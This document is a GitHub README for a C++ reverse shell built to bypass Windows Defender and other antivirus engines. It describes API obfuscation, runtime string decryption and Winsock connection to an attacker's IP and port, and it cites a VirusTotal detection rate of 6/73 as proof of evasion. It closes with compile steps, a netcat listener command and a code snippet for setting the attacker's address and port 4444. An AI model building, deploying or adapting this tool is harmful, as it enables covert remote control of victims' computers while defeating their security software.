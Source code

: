 # Bypassing-Windows-Defender

## Project Overview

This project focuses on developing a C++ reverse shell that initially triggers detection by Windows Defender and other AV solutions. The challenge was to bypass these detections through various obfuscation techniques. The current state of the project has successfully reduced detection rates significantly, as demonstrated by testing on VirusTotal.

## Key Features of the Project


- **Advanced API Obfuscation:** 
  - Applied a custom obfuscation algorithm to crucial Windows API functions like `LoadLibrary` and `GetProcAddress`. By obscuring these function calls, the reverse shell becomes significantly harder to reverse-engineer, providing an additional layer of evasion against static analysis tools.
  - Implemented runtime string decryption to hide function names and other sensitive information from memory until they are required for execution

  
- **Network Communication via Winsock:** 
  - Integrated socket programming to establish TCP communication dynamically. This setup allows the reverse shell to connect to predefined IP addresses and ports for remote system access.
  - Implemented flexible communication parameters, allowing easy modification of the server's IP and port settings without altering the core code.


- **Dynamic De-obfuscation Logic:** 
  - Developed lightweight, runtime de-obfuscation functions to resolve obfuscated API calls. These functions allow the reverse shell to perform necessary tasks while keeping obfuscation in place until the last possible moment, reducing the chance of detection by behavioral analysis.

# VirusTotal Results

The obfuscated reverse shell has been tested on VirusTotal and achieved a detection rate of `6/73`, indicating significant success in bypassing most antivirus engines, including Windows Defender. The goal of future iterations will be to further reduce this detection rate.

![VirusTotal_POC](https://github.com/user-attachments/assets/b0a095f6-5ffd-467b-a646-1cf7a47353c4)

## How to Run It

## 1. Prerequisites

- **Compiler**: Visual Studio with C++ support
- **Windows SDK**: Installed with necessary headers for Windows API programming
- **Socket Library**: Ensure `winsock2.h` is available
- **Administrator Privileges**: Required for running certain operations like socket creation

## 2. Steps to Compile and Execute

### Clone the repository:

```bash
git clone https://github.com/kaddiri/Bypassing-windows-defender.git
cd Bypassing-windows-defender
```
### Open the project in **Visual Studio**.
### Configure the project:

- Make sure to link the Winsock2 library by adding `ws2_32.lib` to the linker settings.
- Ensure all paths for the Windows SDK and required headers are correctly set.
  
### Compile the project:

- Select the build configuration (Debug/Release).
- Build the solution by clicking on **Build** > **Build Solution**.
  
### Run the reverse shell:

- Execute the compiled binary as an administrator for it to work properly.
- On the attacker’s side, set up a listener to receive the reverse shell connection:
  ```bash
  nc -lvp <PORT>
  ```
### Modify the IP address and port in the source code to match your attacker's machine:

```cpp
int ipaddr_offset[] = { 0, 9, 1, 7, 0, 5, 8, 7, 4, 5, 7, 0, 10, 3 }; //192.168.1.58   // Change this to your IP
short port = 4444;                       // Change this to your listener port
```
